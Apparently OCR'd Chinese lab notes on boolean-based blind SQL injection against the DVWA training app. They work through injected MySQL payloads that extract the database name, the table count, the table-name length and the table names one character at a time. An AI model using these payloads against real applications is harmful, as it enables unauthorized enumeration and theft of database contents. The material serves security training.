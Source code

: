 ### 判断当前数据库名称

```sql
select database()
select mid(database(),1,1)
select ord(mid(database(),1,1))=100
select ord(mid(database(),2,1))=118


1' and ord(mid(database(),2,1))=118 #			# 判断出当前数据库名第二个字符为v
```

### 判断表个数

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 0,1
select count(table_name) from information_schema.tables where table_schema=database()


select * from users where user_id='1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #'		# 判断出dvwa数据库下有2张表
```

### 判断表长度

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 0,1
select group_concat(table_name) from information_schema.tables where table_schema=database()
select length(group_concat(table_name)) from information_schema.tables where table_schema=database()


select * from users where user_id='1' and (select length(group_concat(table_name)) from information_schema.tables where table_schema=database())=15 #'		# 判断出dvwa数据库的表下一共有15个字符（第一张表字符长度xx，第二张表字符长度xx，）
```

### 判断数据表

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 1,1
select mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1)
select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))
select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117


select * from users where user_id='1' and (select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117) #'		# 判断出dvwa数据库的第二张表的第一个字符为u
```
